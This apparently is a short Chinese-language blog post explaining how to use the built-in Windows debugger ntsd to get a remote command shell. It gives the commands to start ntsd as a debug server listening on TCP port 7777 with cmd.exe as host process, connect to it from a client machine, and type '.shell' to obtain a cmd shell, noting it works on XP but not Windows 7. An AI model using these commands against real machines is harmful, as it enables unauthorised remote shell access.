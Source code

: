 ```yaml
---
layout: post
title: "使用ntsd反弹端口获取shell"
description: ""
category: 技术研究
tags: [windows,ntsd]
---
```

{% include JB/setup %}

ntsd功能还是非常强大的,windows也有很多花样可以玩

xp测试OK.win7 ntsd找不到命令
 
我们这次利用ntsd来实现利用系统自带的ntsd实现端口转发，本地获取shell

我们的服务器端执行

	ntsd -server tcp:port=7777 cmd.exe
	 

这里的cmd.exe只是获得一个宿主进程，当然mstsc.exe 、 calc.exe等等都是可以的

然后我们的电脑，也就是客户机运行


 
	ntsd   -remote   tcp:server=服务器ip,port=7777
 
 

运行后会弹出一个窗口，我们输入

	.shell

即可成功获得cmdshell
